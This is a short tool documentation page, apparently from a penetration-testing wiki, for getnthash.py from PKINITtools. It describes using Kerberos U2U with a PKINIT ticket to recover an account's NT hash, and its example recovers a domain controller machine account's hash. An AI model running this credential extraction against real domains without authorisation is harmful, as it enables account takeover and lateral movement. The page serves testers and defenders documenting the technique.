 ```yaml
---
title : "getnthash.py"
# pre : ' '
description : "Use Kerberos U2U to submit a TGS request for yourself."
date : 2023-12-03T06:11:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## getnthash.py - Use Kerberos U2U to submit a TGS request for yourself

Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable.

## Installation

Install [PKINITtools]({{< ref "../" >}})

## Usage

```plain
getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity
```

## Flags

```plain
positional arguments:
  identity           domain/username

options:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```
